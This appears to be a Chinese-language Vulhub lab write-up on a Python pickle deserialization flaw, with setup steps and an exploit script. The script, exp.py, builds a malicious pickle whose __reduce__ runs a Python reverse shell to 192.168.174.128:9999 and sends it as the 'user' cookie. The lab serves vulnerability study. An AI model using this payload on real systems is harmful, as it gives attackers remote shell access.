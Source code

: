 # Python unpickle 造成任意命令执行漏洞

## 漏洞描述

参考阅读：

- http://rickgray.me/2015/09/12/django-command-execution-analysis.html
- https://www.leavesongs.com/PENETRATION/zhangyue-python-web-code-execute.html

## 环境搭建

Vulhub编译及运行测试环境：

```
docker-compose build
docker-compose up -d
```

访问`http://your-ip:8000`，显示`Hello {username}!`。

## 漏洞复现

username是取Cookie变量user，对其进行base64解码+反序列化后还原的对象中的“username”变量，默认为“Guest”，伪代码：`pickle_decode(base64_decode(cookie['user']))['username'] or 'Guest'`。

调用exp.py，监听9999端口，反弹shell：

```python
#!/usr/bin/env python3
import requests
import pickle
import os
import base64


class exp(object):
    def __reduce__(self):
        s = """python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.174.128",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'"""
        return (os.system, (s,))


e = exp()
s = pickle.dumps(e)

response = requests.get("http://192.168.174.128:8000/", cookies=dict(
    user=base64.b64encode(s).decode()
))
print(response.content)
```

![image-20220228172508273](images/202202281725409.png)